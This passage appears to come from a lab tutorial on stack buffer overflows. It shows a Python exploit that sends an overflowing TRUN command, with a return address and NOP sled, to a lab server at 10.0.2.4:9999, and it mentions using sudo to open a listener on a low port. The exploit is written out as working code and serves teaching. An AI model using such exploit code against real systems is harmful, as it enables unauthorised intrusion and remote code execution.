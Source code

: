     shellcode = "A" * 2003 + "\\xaf\\x11\\x50\\x62" + "\\x90" * 32 + overflow

    try:
      s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      s.connect(('10.0.2.4',9999))

      payload = b"TRUN /.:/" + shellcode

      s.send((payload))
      s.close()
    except:
      print ("Error connecting to server")
      sys.exit()
    ```

    > why **sudo** ? because port number less than 1024 and is booked for service running already >> you can chose any port number as you like

    <figure><img src="../../../../.gitbook/assets/32.png" alt=""><figcaption></figcaption></figure>
